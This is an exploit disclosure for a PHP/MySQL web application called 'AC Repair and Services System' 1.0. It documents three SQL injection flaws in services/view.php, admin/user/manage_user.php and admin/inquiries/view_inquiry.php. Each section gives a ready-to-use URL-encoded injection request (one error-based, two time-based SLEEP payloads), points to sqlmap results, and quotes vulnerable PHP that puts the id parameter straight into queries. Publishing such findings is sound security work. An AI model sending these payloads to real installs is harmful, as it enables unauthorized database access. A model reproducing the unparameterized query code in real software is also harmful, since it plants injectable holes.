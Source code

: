 ### Exploit Title: AC Repair and Services System - multiple vulnerabilities

### Date: 2023-06/07

### Exploit Author: AnotherN

### Vendor Homepage: https://www.sourcecodester.com

### Software Link: https://www.sourcecodester.com/download-code?nid=16513&title=AC+Repair+and+Services+System+using+PHP+and+MySQL+Source+Code+Free+Download

### Version: 1.0

### Tested on: windows10 + phpstudy

# **1.SQL injection vulnerability in services\view.php**
---
## Sample request POC #1

```
http://php-acrss.com/?page=services/view&id=1%27%20OR%20(SELECT%206453%20FROM(SELECT%20COUNT(*),CONCAT(0x7176627871,(SELECT%20(ELT(6453=6453,1))),0x71786b7071,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)%20AND%20%27CImQ%27=%27CImQ
```
## Sqlmap running results #1

![blockchain](https://github.com/AnotherN/cv/raw/main/services-view.php.jpg "AC Repair and Services System")

## Related Codes services\view.php

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `service_list` where id = '{$_GET['id']}' and `status` = 1 ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
    }else{
		echo '<script>alert("service ID is not valid."); location.replace("./?page=services")</script>';
	}
}else{
	echo '<script>alert("service ID is Required."); location.replace("./?page=services")</script>';
}
?>
```

# **2.SQL injection vulnerability in admin\user\manage_user.php**
---
## Sample request POC #2

```
http://php-acrss.com/admin/?page=user/manage_user&id=9%27%20AND%20(SELECT%201546%20FROM%20(SELECT(SLEEP(5)))IRFo)%20AND%20%27kGVj%27=%27kGVj
```
## Sqlmap running results #2

![blockchain](https://github.com/AnotherN/cv/raw/main/admin-user-manage_user.php.jpg "AC Repair and Services System")

## Related Codes admin\user\manage_user.php

```
<?php 
if(isset($_GET['id'])){
    $user = $conn->query("SELECT * FROM users where id ='{$_GET['id']}' ");
    foreach($user->fetch_array() as $k =>$v){
        $meta[$k] = $v;
    }
}
?>
```

# **3.SQL injection vulnerability in admin\inquiries\view_inquiry.php**
---
## Sample request POC #3

```
https://php-acrss.com/admin/?page=inquiries/view_inquiry&id=1%27%20AND%20(SELECT%204182%20FROM%20(SELECT(SLEEP(5)))XJkL)%20AND%20%27jDyU%27=%27jDyU
```
## Sqlmap running results #3

![blockchain](https://github.com/AnotherN/cv/raw/main/admin-inquiries-view_inquiry.php.jpg "AC Repair and Services System")

## Related Codes admin\inquiries\view_inquiry.php

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `inquiry_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
		$conn->query("UPDATE `inquiry_list` set `status` = 1 where `id` = '{$id}'");
    }else{
		echo '<script>alert("inquiry ID is not valid."); location.replace("./?page=inquiries")</script>';
	}
}else{
	echo '<script>alert("inquiry ID is Required."); location.replace("./?page=inquiries")</script>';
}
?>
```